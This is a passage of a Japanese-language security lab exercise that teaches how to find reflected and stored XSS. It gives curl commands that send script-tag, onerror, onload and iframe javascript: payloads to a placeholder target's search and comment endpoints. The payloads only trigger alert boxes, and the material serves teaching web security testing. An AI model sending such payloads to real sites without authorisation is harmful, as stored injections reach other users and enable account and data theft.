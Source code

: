 ### 演習2.1: 反射型XSSの発見

#### ステップ1: 入力フィールドの特定
```bash
# 1. 検索機能の確認
curl "http://<target-url>/search?q=test"

# 2. 入力値がどのように表示されるかを確認
curl "http://<target-url>/search?q=<h1>Test</h1>"
```

**質問**: 入力値はHTMLエスケープされていますか？HTMLタグが解釈されますか？

#### ステップ2: 基本的なXSSペイロードのテスト
```bash
# 1. 基本的なスクリプトタグ
curl "http://<target-url>/search?q=<script>alert('XSS')</script>"

# 2. イベントハンドラーを使用
curl "http://<target-url>/search?q=<img src=x onerror=alert('XSS')>"

# 3. SVGタグを使用
curl "http://<target-url>/search?q=<svg onload=alert('XSS')>"
```

**課題**: どのペイロードが成功しましたか？ブラウザで実際にアクセスしてスクリプトが実行されることを確認してください。

### 演習2.2: 格納型XSSの発見

#### ステップ1: コメント機能の調査
```bash
# 1. コメント投稿機能の確認
curl -X POST "http://<target-url>/comment" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "comment=Normal comment&name=TestUser"

# 2. 投稿されたコメントの表示確認
curl "http://<target-url>/comments"
```

#### ステップ2: 格納型XSSペイロードの投稿
```bash
# 1. 基本的な格納型XSS
curl -X POST "http://<target-url>/comment" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "comment=<script>alert('Stored XSS')</script>&name=Attacker"

# 2. より持続的なペイロード
curl -X POST "http://<target-url>/comment" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "comment=<iframe src=javascript:alert('Persistent XSS')></iframe>&name=Attacker"
```
